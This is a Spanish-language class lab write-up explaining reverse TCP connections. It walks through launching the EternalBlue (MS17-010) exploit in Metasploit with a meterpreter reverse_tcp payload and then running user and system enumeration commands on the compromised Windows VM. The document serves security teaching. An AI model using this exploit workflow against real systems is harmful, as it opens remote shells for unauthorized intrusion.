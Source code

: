 ```yaml
---
title: Clase 7
date: 2024-11-05 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [shellcode, https, iis]  # TAG names should always be lowercase
---
```

# Tarea.

Requerimientos
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````